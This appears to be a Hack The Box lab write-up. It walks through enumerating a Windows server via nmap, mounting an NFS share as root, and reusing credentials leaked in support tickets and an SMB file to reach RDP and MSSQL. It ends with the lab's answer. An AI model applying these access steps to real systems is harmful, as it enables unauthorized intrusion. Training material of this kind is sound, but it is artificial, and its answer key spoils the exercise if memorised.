




## Task

This second server is a server that everyone on the internal network has access to. In our discussion with our client, we pointed out that these servers are often one of the main targets for attackers and that this server should be added to the scope.

Our customer agreed to this and added this server to our scope. Here, too, the goal remains the same. We need to find out as much information as possible about this server and find ways to use it against the server itself. For the proof and protection of customer data, a user named `HTB` has been created. Accordingly, we need to obtain the credentials of this user as proof.

---

> Q1: Enumerate the server carefully and find the username "HTB" and its password. Then, submit this user's password as the answer.

## Attack Summary

|Step|Vector|Outcome|
|---|---|---|
|1|Nmap scan|Identified Windows host + open NFS export|
|2|NFS mount, UID 0 bypass|Read access to `/TechSupport` ticket files|
|3|Ticket file review|Leaked SMTP credentials for `alex`|
|4|SMB login as `alex`|Access to `devshare` (read/write)|
|5|`important.txt` on `devshare`|Leaked `sa` MSSQL credentials|
|6|RDP as `alex` + SSMS login as `sa`|Full admin access to SQL Server|
|7|Query `accounts.dbo.devsacc`|Recovered `HTB` user's password|

---

## Nmap Scan

```bash
nmap -sC -sV 10.129.156.150 --open
```

```
PORT     STATE SERVICE       VERSION
111/tcp  open  rpcbind       2-4 (RPC #100000)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: WINMEDIUM
|   NetBIOS_Domain_Name: WINMEDIUM
|   DNS_Domain_Name: WINMEDIUM
|   Product_Version: 10.0.17763
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

Windows host (`WINMEDIUM`), Server 2019 build 17763. NFS (111/2049) alongside SMB/RDP is worth enumerating as an unauthenticated foothold.

```bash
sudo nmap --script nfs* -sV -p111,2049 10.129.156.150
```

```
| nfs-showmount:
|_  /TechSupport
```

One exported NFS share, `/TechSupport`, is found.

---

## NFS Enumeration

```bash
mkdir target-NFS
sudo mount -t nfs 10.129.156.150:/ ./target-NFS/ -o nolock
```

```
$ ls target-NFS
TechSupport

$ cd TechSupport
cd: permission denied: TechSupport
```

The directory is listed but not readable as the current user. Escalating locally to `root` (to assume UID 0, which NFS typically trusts) resolves access:

```bash
sudo su
cd target-NFS/TechSupport
ls
```

```
ticket4238791283649.txt
ticket4238791283650.txt
...
ticket4238791283801.txt
```

Some support ticket text files are found. Dumping them all reveals a support chat log referencing an SMTP config:

```bash
cat *
```

```
Conversation with InlaneFreight Ltd

Started on November 10, 2021 at 01:27 PM London time GMT (GMT+0200)

---

01:27 PM | Operator: Hello,.
So what brings you here today?

01:27 PM | alex: hello

01:27 PM | Operator: Hey alex!

01:27 PM | Operator: What do you need help with?

01:36 PM | alex: I run into an issue with the web config file on the system for the smtp server. do you mind to take a look at the config?

01:38 PM | Operator: Of course

01:42 PM | alex: here it is:

smtp {
  host=smtp.web.dev.inlanefreight.htb
  #port=25
  ssl=true
  user="alex"
  password="lol123!mD"
  from="alex.g@web.dev.inlanefreight.htb"
}

securesocial {

  onLoginGoTo=/
  onLogoutGoTo=/login
  ssl=false

  userpass {
    withUserNameSupport=false
    sendWelcomeEmail=true
    enableGravatarSupport=true
    signupSkipLogin=true
    tokenDuration=60
    tokenDeleteInterval=5
    minimumPasswordLength=8
    enableTokenJob=true
    hasher=bcrypt
  }

  cookie {
    # name=id
    # path=/login
    # domain="10.129.2.59:9500"
    httpOnly=true
    makeTransient=false
    absoluteTimeoutInMinutes=1440
    idleTimeoutInMinutes=1440
  }
```

Credentials recovered: `alex : lol123!mD`

---

## SMB Enumeration

```bash
nxc smb 10.129.156.150 -u alex -p 'lol123!mD' --shares
```

```
SMB  10.129.156.150  445  WINMEDIUM  [+] WINMEDIUM\alex:lol123!mD
SMB  10.129.156.150  445  WINMEDIUM  Share       Permissions   Remark
SMB  10.129.156.150  445  WINMEDIUM  ADMIN$                    Remote Admin
SMB  10.129.156.150  445  WINMEDIUM  C$                        Default share
SMB  10.129.156.150  445  WINMEDIUM  devshare    READ,WRITE
SMB  10.129.156.150  445  WINMEDIUM  IPC$        READ          Remote IPC
SMB  10.129.156.150  445  WINMEDIUM  Users       READ
```

Credentials are valid over SMB. `devshare` grants read/write access.

```bash
smbclient -U alex --password 'lol123!mD' //10.129.156.150/devshare
```

```
smb: \> ls
  important.txt    A    16    Wed Nov 10 11:12:55 2021
```

```bash
smb: \> more important.txt
```

```
sa:87N1ns@slls83
```

MSSQL `sa` (system administrator) credentials are recovered: `sa : 87N1ns@slls83`

---

## RDP Access & MSSQL Database

```bash
KRB5_CONFIG=/dev/null xfreerdp3 /v:10.129.156.150 /u:alex /p:'lol123!mD' /cert:ignore
```

An RDP session is established as `alex`. SQL Server Management Studio is available on the host, but a login attempt as `sa` initially fails:



Launching the application as Administrator allows the connection with the `sa` credentials to succeed:



Authenticated successfully as `WINMEDIUM\Administrator` via `sa`.

Browsing the `accounts` database reveals a `dbo.devsacc` table storing `id`, `name`, and `password` columns:



Browsing the table's rows surfaces the `HTB` user's entry:



|id|name|password|
|---|---|---|
|157|HTB|`Inch7ehrdn4...`|

---

## Answer

**Q1 — `HTB` user's password:**

```
Inch7ehrdn4...
```